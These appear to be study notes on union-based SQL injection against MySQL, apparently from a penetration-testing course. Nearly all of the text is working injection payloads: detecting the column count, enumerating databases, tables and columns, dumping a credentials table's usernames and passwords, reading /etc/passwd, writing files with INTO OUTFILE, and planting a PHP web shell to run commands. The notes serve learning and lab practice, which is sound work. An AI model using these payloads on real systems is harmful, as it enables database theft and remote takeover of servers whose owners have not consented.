 ## Detect number of columns
we need to find the number of columns selected by the server. There are two methods of detecting the number of columns:

- Using `ORDER BY`
- Using `UNION`
### Order By
```sql
' order by 1-- -
```
```sql
' order by 2-- -
```
- we increment repeatedly until we get an error
### Select
```sql
cn' UNION select 1,2,3-- -
```
```sql
cn' UNION select 1,2,3,4-- -
```
- Keep incrementing until we get a valid result
	- we can view which columns are being displayed from the number of the columns'

Now we can see the version:
```sql
cn' UNION select 1,@@version,3,4-- -
```
## Database Enumeration
The following queries and their output will tell us that we are dealing with `MySQL`:

| Payload            | When to Use                      | Expected Output                                     | Wrong Output                                              |
| ------------------ | -------------------------------- | --------------------------------------------------- | --------------------------------------------------------- |
| `SELECT @@version` | When we have full query output   | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)`  | When we only have numeric output | `1`                                                 | Error with other DBMS                                     |
| `SELECT SLEEP(5)`  | Blind/No Output                  | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS                   |
### INFORMATION_SCHEMA Database
To pull data from tables using `UNION SELECT`, we need to properly form our `SELECT` queries.

The [INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server.

To reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:
```sql
SELECT * FROM my_database.users;
```
### SCHEMATA
The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server.

The `SCHEMA_NAME` column contains all the database names currently present.
```sql
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```
- shows databases

We can find the current database with the `SELECT database()` query.
```sql
cn' UNION select 1,database(),2,3-- -
```
### TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
- shows all tables on the current database

### COLUMNS
```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
- Dumps the data (column_name, table_name, table_schema) of the credentials table
### Data
```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
- dumps data of the `username` and `password` columns from the `credentials` table in the `dev` database.
## Reading Files
### User Privileges
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
- tests to see if we have super_priv
### LOAD_FILE
```sql
SELECT LOAD_FILE('/etc/passwd');
```
- Reads the contents of the passwd file
## Writing Files
To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
### secure_file_priv
Used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable.
- `NULL` means we cannot read/write from any directory

> Note: `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings.

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
### SELECT INTO OUTFILE
used to write data from select queries into files.

add `INTO OUTFILE '...'` after our query to export the results into the file we specified.

```sql
cn' UNION SELECT * from users INTO OUTFILE '/tmp/credentials'-- -
```
- saves the output of the `users` table into the `/tmp/credentials` file.
- If we go to the back-end server and `cat` the file, we see that table's content

It is also possible to directly `SELECT` strings into files
### Writing a Web Shell
**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`

We can write the following PHP webshell to be able to execute commands directly on the back-end server:
```php
<?php system($_REQUEST[0]); ?>
```

Injection may look like this:
```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
- This can be verified by browsing to the `/shell.php` file and executing commands by adding `?0=id` to the url